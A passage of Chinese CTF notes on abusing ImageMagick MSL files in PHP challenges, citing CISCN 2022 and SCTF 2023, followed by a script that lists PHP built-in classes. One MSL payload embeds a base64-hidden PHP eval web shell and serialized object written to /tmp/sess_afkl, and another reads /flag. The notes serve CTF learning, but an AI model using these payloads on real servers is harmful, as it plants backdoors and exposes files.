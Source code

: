 CISCN 2022 有根据这个知识点出过题：[CTF-Challenges/CISCN/2022/backdoor/writup/writup.md at master · AFKL-CUIT/CTF-Challenges · GitHub](https://github.com/AFKL-CUIT/CTF-Challenges/blob/master/CISCN/2022/backdoor/writup/writup.md)，但利用 payload 有所区别, 使用 inline 将文件内容以 base64 的形式编码在 msl 文件中。
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADw/cGhwIGV2YWwoJF9HRVRbMV0pOz8+fE86ODoiYmFja2Rvb3IiOjI6e3M6NDoicGF0aCI7czoxNDoiL3RtcC9zZXNzX2Fma2wiO3M6MTI6ImRvX2V4ZWNfZnVuYyI7YjowO30=" />
 <write filename="/tmp/sess_afkl" />
</image>
```

SCTF 2023 中对这种利用方式进行了探索，可以达到读取文件内容的效果。
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="mvg:/flag" />
 <write filename="/tmp/xxxx" />
</image>
```

# 所有内置类
## 枚举所有内置类
```php
<?php

$class_names = get_declared_classes();

foreach ($class_names as $class_name) {
    $rc = new ReflectionClass($class_name);
    $constructor = $rc->getConstructor();

    if ($constructor != NULL) {
        $params = $constructor->getParameters();
        
        echo "new $class_name(";
        
        foreach ($params as $param) {
            $name = $param->getName();
            $opt = $param->isOptional();
            
            if ($opt) {
                echo "[$name], ";
            } else {
                echo "$name, ";
            }
        }
        
        if (empty($params)) {
            echo "[none or dynamic]";
        }
        echo ")\n";
    }
}
```
